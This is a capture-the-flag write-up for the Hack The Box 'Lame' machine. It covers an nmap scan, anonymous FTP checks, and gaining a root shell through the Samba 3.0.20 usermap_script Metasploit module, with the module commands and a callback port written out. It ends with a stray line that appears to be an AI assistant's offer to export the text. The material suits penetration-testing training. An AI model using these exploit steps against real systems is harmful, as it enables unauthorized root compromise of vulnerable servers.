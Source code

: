 # Hack The Box - Lame Write-Up
You can access the machine [here](https://www.hackthebox.com/machines/Lame) on Hack The Box.


- **Target IP:** `10.10.10.3`

---

## 🌐 Initial Scanning

1. **Ping the target to check if it's alive:**
   ```bash
   ping 10.10.10.3
````

2. **Performed an Nmap scan:**

   ```bash
   nmap -sT -Pn -A 10.10.10.3
   ```

   **Nmap Results:**

   * **FTP (21/tcp)**: vsftpd 2.3.4 (Anonymous login allowed)
   * **SSH (22/tcp)**: OpenSSH 4.7p1
   * **SMB (139/tcp)**: Samba 3.0.20-Debian

---

## 🔎 Enumeration

### FTP

* Anonymous login was allowed:

  ```bash
  ftp 10.10.10.3
  ```

  * Logged in as `ftp`, but no useful files were found.

### SMB

* Samba version `3.0.20` was identified.
* Searched for known vulnerabilities and found it was **vulnerable to remote code execution**.

---

## 💥 Exploitation

* Found a matching exploit on [Exploit-DB](https://www.exploit-db.com/) and confirmed it was available in **Metasploit**.


* Launched Metasploit and used the `usermap_script` exploit:

  ```bash
  use exploit/multi/samba/usermap_script
  set RHOST "htb vm ip"
  set lhost "htbvpn ip"
  set lport 4444 #any port
  run
  ```

* Gained a **root shell** successfully.

---

## 🏁 Post Exploitation

* Verified root access with:

  ```bash
  id
  ```

  * Output: `root`

* Retrieved the user and root flag.

---

**Status:** ✅ Root access obtained via Samba RCE vulnerability.

```

Let me know if you want this exported as a PDF or if you’d like to make it into a general HTB exploit report template!
```
